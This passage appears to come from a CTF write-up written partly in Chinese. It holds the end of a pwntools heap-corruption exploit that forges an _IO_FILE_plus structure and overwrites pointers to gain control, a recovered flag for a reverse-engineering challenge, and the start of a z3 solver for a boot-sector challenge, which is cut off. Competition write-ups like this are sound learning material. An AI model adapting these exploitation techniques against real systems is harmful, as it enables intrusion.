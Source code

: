 ```python
	p.sendline(str(index))
	p.recvuntil("Content:")
	p.send(content)

new(0,'111')
new(1,'222')
release(0)
change(0,p64(0x60203d)+'\n')
new(2,"333")
new(3,"4"*19 + p64(0x602088)+p64(0x6020f0)+p64(0x602158)+p64(0x6021c0)+p64(0x602020))
s = _IO_FILE_plus().tostr()
print len(s)
change(0,s[0:0x68])
change(1,s[0x68:0xd0])
change(2,s[0xd0:] + p64(0)*2 + p64(0x4008E3)*9)
change(3,p64(0x4008E3)*13)
p.recvuntil("Choice:")
p.sendline("2")
p.recvuntil("Index:")
p.sendline('4')
p.recvuntil("Content:")
p.sendline(p64(0x602088))
p.sendline("your token")
p.interactive()
```
## reverse
### beijing
本题静态分析即可,flag在data段上被打乱放置, 和程序的输出结果形成索引,  根据输出结果推算出flag为:
`flag{amazing_beijing}`
### blend
题目分析拿到的是个DOS/MBR boot sector, 根据之前做过的[CSAW逆向题](https://github.com/TechSecCTF/writeups/blob/master/CSAWQuals2017/realism/README.md)遇到过这种模式的题目,照着思路调试了一遍
```bash
xxx@xx  ~/ctf/china/advanced  file main.bin 
main.bin: DOS/MBR boot sector
 xxx@xx ~/ctf/china/advanced  strings main.bin 
flag
a} ==>
== ENTER FLAG ==
 CORRECT! 
!! WRONG FLAG !!
```
payload如下:
```python
#!/usr/bin/env python
from pprint import pprint
from z3 import *
import struct

s = Solver()
ZERO = IntVal(0)

def z3_abs(x):
   return If(x >= 0, x, -x)

def psadbw(xmm1, xmm2):
   first  = Sum([z3_abs(b1 - b2) for b1,b2 in zip(xmm1[:8], xmm2[:8])])
   second = Sum([z3_abs(b1 - b2) for b1,b2 in zip(xmm1[8:], xmm2[8:])])
   return (first, second)
[0x2DD02F6, 0x2DC02E8, 0x2D802ED, 0x2CE02E2, 0x2C402E2, 0x2D402DB, 0x2D902CD, 0x3110304]
_results = [
```